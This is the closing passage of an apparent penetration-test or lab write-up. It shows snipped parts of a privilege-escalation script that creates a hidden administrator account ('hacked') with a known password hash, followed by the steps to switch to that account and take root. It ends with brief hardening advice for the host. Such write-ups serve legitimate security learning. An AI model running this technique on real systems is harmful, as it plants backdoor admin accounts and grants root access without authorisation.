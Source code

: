 --snip--

- Set the name and display name

userName="hacked"

realName="hacked"

- Set the account as an administrator

accountType=1 

- Set the password hash for 'password' and password hint password='$5$WR3c6uwMGQZ/JEZw$OlBVzagNJswkWrKRSuoh/

VCrZv183QpZL7sAeskcoTB' passHint="password"![](Aspose.Words.552d892b-4837-49da-b9d1-0677a8dc6c81.024.png)

--snip--

echo ""

echo "[\*] Run 'su - $userName', followed by 'sudo su' to gain root access" …….snip…..

we copy the code and paste it to our machine “nano shelly.sh” grant it execution permisssion

Run su – hacked

password = “password”

Screenshot Here:

![](Aspose.Words.552d892b-4837-49da-b9d1-0677a8dc6c81.025.jpeg)

boom root

4. Report  – Advice to help secure host better

To patch this host I think it would be necessary to perform a number of actions a few would be:

- Updating wordpress plugins
- Restrict access to the bot
- Do not leave credentials in an accessible file
- Upgrading linux constantly to avoid old CVEs
![](Aspose.Words.552d892b-4837-49da-b9d1-0677a8dc6c81.026.png)

<br> <br>
[Back To Home](../../index.md)
<br>

